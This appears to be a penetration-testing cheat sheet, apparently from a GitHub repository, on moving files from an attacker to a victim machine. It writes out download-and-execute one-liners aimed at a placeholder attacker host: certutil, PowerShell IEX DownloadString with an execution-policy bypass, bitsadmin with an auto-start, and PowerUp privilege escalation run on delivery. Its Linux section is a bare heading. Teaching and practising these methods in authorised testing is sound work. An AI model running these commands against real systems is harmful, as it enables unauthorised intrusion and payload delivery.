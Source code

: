 #  Transferring Files

In many engagements you will need to be able to copy files between the victim machine and attacking machine.  This section outlines a number of common methods for transferring files for both Windows and Linux.  Note that this will usually rely on having the necessary files hosted on a webserver. This can be achieved by using python3 to create a temporary web server to host files on the attacker machine:
`python3 -m http.server 80`

## Windows 

### CertUtil.exe

CertUtil can be used to download files from a web server using the following command:

`certutil -urlcache -split -f "http://ip-addr:port/NameOfHostedFile" <output-file-name>`

### Powershell

Powershell can also be used to dowload and execute powershell scripts on a host:

`powershell IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

Powershell Download and Execute script with execution bypass and Powershell Version 2:

`powershell -Version 2 -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

To execute the payload upon delivery add the command you want Powershell to run at the end of the script.  A good example of this is using the PowerUp.ps1 privilege escalation script.  The command Invoke-AllChecks can be added to the end of the script so that it is ran as soon as it is collected from the attackers machine.  If you only want to download the script then execute later the `powershell Import-Module .\PowershellScript.ps1` command can be used.  This will then allow you to run the commands within the script manaully.

In later versions of Powershell wget can be used to download a file:

`wget "http://<ip address>:<port>/FileToDownload.exe" -OutFile SomeOutputFileName.exe `

### BITS Admin

BITSAdmin can also be used to transfer files to a host with the following command: 

`cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://<ip address>:<port>/FileToTransfer.exe C:\Path\ExeOutputName.exe & start acrev.exe"`


## Linux
